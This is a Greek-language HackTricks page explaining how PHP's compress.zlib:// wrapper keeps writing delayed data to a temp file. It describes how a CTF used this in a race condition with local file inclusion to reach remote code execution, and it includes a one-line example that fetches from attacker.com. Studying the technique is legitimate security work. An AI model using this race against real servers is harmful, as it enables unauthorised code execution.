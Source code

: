 <details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου AWS του HackTricks)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## WhiteIntel

<figure><img src=".gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) είναι μια μηχανή αναζήτησης που τροφοδοτείται από το **dark web** και προσφέρει **δωρεάν** λειτουργίες για να ελέγξετε αν μια εταιρεία ή οι πελάτες της έχουν **διαρρεύσει** από **κλέφτες κακόβουλου λογισμικού**.

Ο κύριος στόχος του WhiteIntel είναι η καταπολέμηση των αναλήψεων λογαριασμών και των επιθέσεων ransomware που προκύπτουν από κακόβουλο λογισμικό που κλέβει πληροφορίες.

Μπορείτε να ελέγξετε τον ιστότοπό τους και να δοκιμάσετε τη μηχανή τους δωρεάν στο:

{% embed url="https://whiteintel.io" %}

---

## `compress.zlib://` και `PHP_STREAM_PREFER_STDIO`

Ένα αρχείο που ανοίγεται χρησιμοποιώντας το πρωτόκολλο `compress.zlib://` με τη σημαία `PHP_STREAM_PREFER_STDIO` μπορεί να συνεχίσει να γράφει δεδομένα που φτάνουν στη σύνδεση αργότερα στο ίδιο αρχείο.

Αυτό σημαίνει ότι μια κλήση όπως:
```php
file_get_contents("compress.zlib://http://attacker.com/file")
```
Θα στείλει ένα αίτημα ζητώντας το http://attacker.com/file, στη συνέχεια ο διακομιστής ενδέχεται να απαντήσει στο αίτημα με ένα έγκυρο HTTP αποτέλεσμα, να διατηρήσει τη σύνδεση ανοιχτή, και να στείλει επιπλέον δεδομένα αργότερα τα οποία θα γραφτούν επίσης στο αρχείο.

Μπορείτε να δείτε αυτές τις πληροφορίες σε αυτό το τμήμα του κώδικα php-src στο main/streams/cast.c:
```c
/* Use a tmpfile and copy the old streams contents into it */

if (flags & PHP_STREAM_PREFER_STDIO) {
*newstream = php_stream_fopen_tmpfile();
} else {
*newstream = php_stream_temp_new();
}
```
## Αγώνας Κατάστασης προς RCE

[**Αυτό το CTF**](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer) λύθηκε χρησιμοποιώντας το προηγούμενο κόλπο.

Ο επιτιθέμενος θα κάνει το **θύμα server να ανοίξει μια σύνδεση διαβάζοντας ένα αρχείο από το server του επιτιθέμενου** χρησιμοποιώντας το πρωτόκολλο **`compress.zlib`**.

**Ενώ** αυτή η **σύνδεση** υπάρχει, ο επιτιθέμενος θα **εξαγάγει τη διαδρομή** προς το προσωρινό αρχείο που δημιουργήθηκε (αποκαλύπτεται από τον server).

**Ενώ** η **σύνδεση** είναι ακόμα ανοιχτή, ο επιτιθέμενος θα **εκμεταλλευτεί μια LFI φορτώνοντας το προσωρινό αρχείο** που ελέγχει.

Ωστόσο, υπάρχει έλεγχος στον web server που **εμποδίζει τη φόρτωση αρχείων που περιέχουν `<?`**. Επομένως, ο επιτιθέμενος θα εκμεταλλευτεί μια **Κατάσταση Αγώνα**. Στη σύνδεση που είναι ακόμα ανοιχτή, ο **επιτιθέμενος** θα **στείλει το PHP payload ΜΕΤΑ** το **webserver** να **έχει ελέγξει** αν το αρχείο περιέχει τους απαγορευμένους χαρακτήρες αλλά **ΠΡΙΝ φορτώσει το περιεχόμενό του**.

Για περισσότερες πληροφορίες ελέγξτε την περιγραφή της Κατάστασης Αγώνα και του CTF στο [https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer)

## WhiteIntel

<figure><img src=".gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) είναι μια μηχανή αναζήτησης που τροφοδοτείται από το **dark web** και προσφέρει **δωρεάν** λειτουργίες για να ελέγξετε αν μια εταιρεία ή οι πελάτες της έχουν **διαρρεύσει** από **κλέφτες κακόβουλων λογισμικών**.

Ο κύριος στόχος του WhiteIntel είναι η καταπολέμηση των καταλήψεων λογαριασμών και των επιθέσεων ransomware που προκύπτουν από κακόβουλα λογισμικά που κλέβουν πληροφορίες.

Μπορείτε να ελέγξετε τον ιστότοπό τους και να δοκιμάσετε τη μηχανή τους **δωρεάν** στο:

{% embed url="https://whiteintel.io" %}

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ σας υποβάλλοντας PRs** στα αποθετήρια του [**HackTricks**](https://github.com/carlospolop/hacktricks) και του [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) στο GitHub.

</details>
